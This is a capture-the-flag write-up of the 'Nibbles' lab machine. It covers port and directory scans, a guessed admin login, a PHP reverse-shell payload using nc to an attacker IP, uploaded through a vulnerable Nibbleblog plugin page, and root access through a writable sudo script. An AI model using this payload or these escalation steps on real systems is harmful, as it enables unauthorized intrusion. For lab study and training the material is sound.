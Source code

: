 ```yaml
---
title: Nibbles
author: Jacek Cytera
geometry: margin=2cm

---
```


\tableofcontents
\pagebreak
        

# Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles

![](1.jpg)

Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:

![](2.jpg)

We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```

